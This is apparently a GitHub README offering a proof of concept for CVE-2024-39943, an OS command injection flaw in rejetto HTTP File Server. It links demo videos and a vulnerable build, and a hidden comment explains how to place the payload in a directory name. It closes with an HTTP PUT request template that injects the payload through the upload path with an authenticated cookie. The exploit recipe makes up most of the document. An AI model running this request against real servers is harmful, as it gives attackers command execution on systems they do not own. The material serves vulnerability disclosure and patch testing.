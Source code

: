 # CVE-2024-39943-Poc
CVE-2024-39943 rejetto HFS (aka HTTP File Server) 3 before 0.52.10 on Linux, UNIX, and macOS allows OS command execution by remote authenticated users (if they have Upload permissions). This occurs because a shell is used to execute df (i.e., with execSync instead of spawnSync in child_process in Node.js).

Deploy: ``` ./hfs --config config.yaml ```
File: https://github.com/truonghuuphuc/CVE-2024-39943-Poc/blob/main/hfs-linux.zip


## Poc: user admin
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/c9e3d7ec-9181-43b5-8230-82c36fbf8a2b

## Poc: user guest
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/cbb55ece-2c68-4ade-a09d-8b9bf3b961d8

## update 6/7/2024: Poc user guest
https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/f5e0c190-419a-4017-83ab-8a303b7176a8

<!--Note:
Payload is directory name exist , If the directory does not exist, you need to send the request twice. In the video, because a directory with the name contain payload already exists on the HFS server, I only need to send the request once

https://github.com/truonghuuphuc/CVE-2024-39943-Poc/assets/20487674/8bc8c270-24a5-4ad6-b32b-a75243afcd6a
-->
```
PUT /tmp/{{payload}}/poc11.txt HTTP/1.1
Host: <host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cookie: {{Cookie}}
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

aaaaaaaaaaa
```
